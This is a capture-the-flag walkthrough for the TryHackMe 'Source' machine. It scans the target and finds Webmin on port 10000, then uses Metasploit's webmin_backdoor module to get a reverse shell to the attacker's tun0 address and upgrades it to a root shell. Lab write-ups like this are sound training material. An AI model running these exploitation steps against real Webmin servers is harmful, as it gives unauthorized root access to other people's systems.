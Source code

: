 

## Welcome to this Walk-through Guide
Today, I will walk you through step by step on how to solve and pwn the Source machine on TryHackMe.

## Footprinting

So, we begin with an nmap scan and get the following result:

![1.png](/posts/res/source_1.png)

From the scan result, we can see that we have two ports open on our target machine: port 22 (SSH) and port 10000 (HTTP).

We have a web server running on a non-standard port, so let's head over to our web browser and check it out:

```
https://<IP>:10000
```

## Enumeration

Now, when we load up the address in our browser, we can see a login page for a software called ***webmin***. Essentially, I tried various default credentials to test for misconfiguration, but they didn't work.

![2.png](/posts/res/source_2.png)

My next approach was to check if a public exploit is available for the version of software running.

![3.png](/posts/res/source_3.png)

So, we can see that we have a backdoor in Webmin versions 1.890 through 1.920 which allows RCE.

## Exploitation

Now, let's load up our Metasploit console. We would be making use of the following exploit:

![4.png](/posts/res/source_4.png)

```
search webmin
use exploit/linux/http/webmin_backdoor 
```
```
show options
set RHOSTS <Target_IP>
set LHOST tun0
set SSL true
exploit
```

![5.png](/posts/res/source_5.png)

Now we have successfully gained a shell. Let's try to stabilize our current shell. First, we check if Python is available on the target machine using the following command:

```
which python
```

![7.png](/posts/res/source_7.png)

Cool! We have Python installed. Now, we run the following command to upgrade our shell:

```
python -c "import pty; pty.spawn('/bin/bash')"
```

![8.png](/posts/res/source_8.png)

Running the ***whoami*** command says we are the root user so there is no need for Priv-esc, now let's navigate the file system to find the flag.

To get the user flag, we head over to the following directory: ***/home/dark***

![9.png](/posts/res/source_9.png)

For the root flag, you know what to do 😉. 

--- 

